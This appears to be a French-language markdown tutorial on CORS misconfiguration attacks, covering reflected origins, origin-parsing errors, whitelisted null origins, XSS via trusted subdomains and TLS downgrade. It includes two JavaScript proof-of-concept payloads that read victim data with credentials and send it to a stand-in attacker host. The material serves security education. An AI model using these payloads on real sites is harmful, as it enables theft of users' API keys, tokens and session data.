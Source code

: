 # Cross-origin resource sharing (CORS)

Partage de ressources multi-origines ou partage de ressources d'origine croisée.

- [Same-origin policy (SOP)](./Same-origin%20policy.md)

- [CORS and the Access-Control-Allow-Origin response header](./CORS%20and%20the%20Access-Control-Allow-Origin%20response%20header.md)

- [Vérifications avant vol](./Vérifications%20avant%20vol.md)

# Vulnerabilities

Un serveur Web cible est vulnérable aux attaques CORS si :

```sh
# request
Origin: https://attacker-website.com
```
Pour déterminer si CORS est activé, recherchez les en-têtes commençant par `Access-Control-Allowed` dans les en-têtes de réponse.

```sh
# response
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: https://attacker-website.com
Access-Control-Allow-Credentials: true
```


Les vulnérabilités possibles:

## 1. Server-generated ACAO header from client-specified Origin header
Certaines applications doivent donner accès à un certain nombre d'autres domaines.

```sh
# request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Ces en-têtes indiquent que l'accès est autorisé à partir du domaine demandeur ( `malicious-website.com`) et que les requêtes cross-origin peuvent inclure des cookies ( `Access-Control-Allow-Credentials: true`) et sera donc traité en session. 

> **Parce que l'application reflète des origines arbitraires dans l'en-tête `Access-Control-Allow-Origin` , cela signifie qu'absolument n'importe quel domaine peut accéder aux ressources du domaine vulnérable**

Si la réponse contient des informations sensibles telles qu'une clé API ou un jeton CSRF, vous pouvez les récupérer en plaçant le script suivant sur votre site Web : 

```html
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='//malicious-website.com/log?key='+this.responseText;
	};
</script>
```

Now visite the attacker web site `https://malicious-website.com/`


## 2. Errors parsing Origin headers
Erreurs lors de l'analyse des en-têtes Origin

Des règles sont souvent implémentées en faisant correspondre les `préfixes` ou `suffixes` d'URL

Par exemple, supposons qu'une application accorde l'accès à tous les domaines se terminant par : `normal-website.com`

- Un attaquant pourrait pouvoir accéder en enregistrant le domaine : `hackersnormal-website.com`

Alternativement, supposons qu'une application accorde l'accès à tous les domaines commençant par `normal-website.com`

- Un attaquant pourrait être en mesure d'accéder à l'aide du domaine : `normal-website.com.evil-user.net`

## 3. Whitelisted null origin value

Les navigateurs peuvent envoyer la valeur `Origin: null` dans l'en-tête.

Certaines applications peuvent mettre sur liste blanche l'`Origin: null` pour accompagner le développement local de l’application.

```sh
# request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Dans cette situation, un attaquant peut générer une requête cross-origin contenant la valeur null dans l’en-tête Origine. Cela satisfera la liste blanche, conduisant à un accès inter-domaines.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='malicious-website.com/log?key='+this.responseText;
	};
</script>">
</iframe>
```

## 4. Exploiting XSS via CORS trust relationships
> Même CORS « correctement » configuré établit une relation de confiance entre deux origines.

```sh
# request
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Un attaquant qui trouve une vulnérabilité XSS sur `subdomain.vulnerable-website.com` pourrait l'utiliser pour récupérer la clé API, en utilisant une URL telle que:

```sh
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## 5. Breaking TLS with poorly configured CORS

Supposons qu'une application qui utilise rigoureusement HTTPS mette également sur liste blanche un sous-domaine approuvé qui utilise HTTP simple.

```sh
# request
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

```sh
# response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Dans cette situation, un attaquant capable d'intercepter le trafic d'un utilisateur victime et exploiter la configuration CORS pour compromettre l'interaction de la victime avec l'application avec les étapes suivantes :


1. L'utilisateur victime effectue une requête HTTP simple.

2. L'attaquant injecte une redirection vers :

```
http://trusted-subdomain.vulnerable-website.com
```

3. Le navigateur de la victime suit la redirection.

4. L'attaquant intercepte la requête HTTP simple et renvoie une réponse usurpée contenant une requête CORS à:

```
https://vulnerable-website.com
```

5. Le navigateur de la victime fait la requête CORS, en incluant l'origine :

```
http://trusted-subdomain.vulnerable-website.com
```

6. L'application autorise la demande car il s'agit d'une origine sur liste blanche . Les données sensibles demandées sont renvoyées dans la réponse.

7. La page usurpée de l'attaquant peut lire les données sensibles et les transmettre à n'importe quel domaine sous le contrôle de l'attaquant.

> Cette attaque est efficace car même si le site utilise des mesures de sécurité comme HTTPS, n'accepte pas de connexions HTTP, et protège bien les cookies, l'attaque peut quand même réussir. 

